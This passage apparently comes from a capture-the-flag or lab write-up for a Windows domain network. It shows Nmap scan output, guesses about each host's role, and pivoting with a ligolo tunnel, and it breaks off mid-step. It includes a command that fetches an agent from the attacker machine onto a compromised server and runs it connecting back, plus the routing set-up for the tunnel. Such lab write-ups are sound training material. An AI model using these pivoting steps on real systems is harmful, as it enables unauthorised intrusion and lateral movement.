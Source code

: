     Nmap scan report for 10.200.95.250
    Host is up (0.0058s latency).
    Not shown: 999 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 d8:21:7f:15:75:65:77:cd:6b:47:b6:a9:ff:4e:ef:b1 (RSA)
    |   256 e6:6a:17:5c:df:57:b6:f4:ed:07:b0:c3:a4:bf:60:a5 (ECDSA)
    |_  256 df:42:4a:4d:78:04:ab:f4:e8:a9:05:24:2d:03:0a:e3 (ED25519)
    MAC Address: 02:6A:9F:5F:BA:47 (Unknown)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
    Post-scan script results:
    | clock-skew: 
    |   0s: 
    |     10.200.95.35
    |     10.200.95.30
    |     10.200.95.31
    |_    10.200.95.32
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 5 IP addresses (5 hosts up) scanned in 224.81 seconds


From the above results we can infer that:
- .30 host is the DC:  DC-SRV01.holo.live
- .31: S-SRV01.holo.live
- .32: S-SRV02.holo.live
- .35 is probably a windows file server:  PC-FILESRV01.holo.live
- .250 is *nix box having hosting SSH server and it seems not to be part of the domain. I focused on the domain's hosts.

To spped up the interactions, we can create another ligolo tunnell to reach these hosts directly.
Again I downloaded the agent from my attacker machine on the compromised server:

    wget http://10.50.74.35:8000/agent && chmod u+x agent

Start the agent

    ./agent -connect 10.50.74.35:11601 -ignore-cert

Now on our attacker machine we have to define another interface to assigne to the ligolo tunnell:

     ip tuntap add user root mode tun ligolo2 && ip link set ligolo2 up
Add routes for the hosts (dont'use the whole /24 networks since it will conflict with the VPN)

    ip route add 10.200.95.30/32 dev ligolo2  && ip route add 10.200.95.31/32 dev ligolo2 && ip route add 10.200.95.32/32 dev ligolo2 && ip route add 10.200.95.35/32 dev ligolo2 

Start the tunnell from ligolo console using the new tun interfaces
    